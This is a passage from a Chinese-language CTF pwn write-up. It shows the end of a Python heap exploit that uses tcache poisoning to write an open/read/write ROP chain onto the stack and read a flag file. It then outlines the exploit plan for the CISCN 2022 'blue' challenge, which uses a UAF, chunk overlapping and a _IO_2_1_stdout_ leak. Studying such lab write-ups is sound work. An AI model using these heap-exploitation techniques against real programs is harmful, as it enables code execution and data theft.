    ```python
   payload = fd_glibc32(tcache_base,stack_addr)
   edit(3,payload)
   
   #布置ORW
   pop_rdi_ret=libc_base+0x0000000000028a55
   pop_rdx_ret=libc_base+0x00000000000c7f32
   pop_rax_ret=libc_base+0x0000000000044c70
   pop_rsi_ret=libc_base+0x000000000002a4cf
   ret=libc_base+0x0000000000026699
   
   open_addr = libc.sym['open']+libc_base
   read_addr = libc.sym['read']+libc_base
   write_addr = libc.sym['write']+libc_base    
   
   flag = stack_addr
   orw = b"./flag\x00\x00" + b"a"*0x10
   # open(0,flag)
   orw+=p64(pop_rdi_ret)+p64(flag)
   orw+=p64(pop_rsi_ret)+p64(0)
   orw+=p64(open_addr)
   
   # read(3,heap+0x1010,0x30) 
   orw+=p64(pop_rdi_ret)+p64(3)
   orw+=p64(pop_rsi_ret)+p64(stack_addr+0x100)
   orw+=p64(pop_rdx_ret)+p64(0x30)
   orw+=p64(read_addr)     
   
   # write(1,heap+0x1010,0x30)
   orw+=p64(pop_rdi_ret)+p64(1)
   orw+=p64(pop_rsi_ret)+p64(stack_addr+0x100)#存放地址0x50
   orw+=p64(pop_rdx_ret)+p64(0x30)
   orw+=p64(write_addr)
   
   add()   #5
   add()   #6
   #覆盖掉返回值
   edit(6,orw)
   
   p.interactive()
   ```

# 6. [[CISCN 2022 华东北\]blue | NSSCTF](https://www.nssctf.cn/problem/2390)

### 思路：

1. 利用**一次性的UAF和show泄漏libc地址**，计算出**environ地址**，**_IO_2_1_stdout_地址**。
2. 利用unsortedbin和tcache，结合使用造成**overlaping**修改next指针，实现**任意地址分配chunk**。
3. 修改**_IO_2_1_stdout_结构**，泄漏**environ中的栈地址**。
4. 利用造成的**overlaping**修改next指针，分配chunk到栈上，覆盖函数的返回值，写入ORW获取flag。

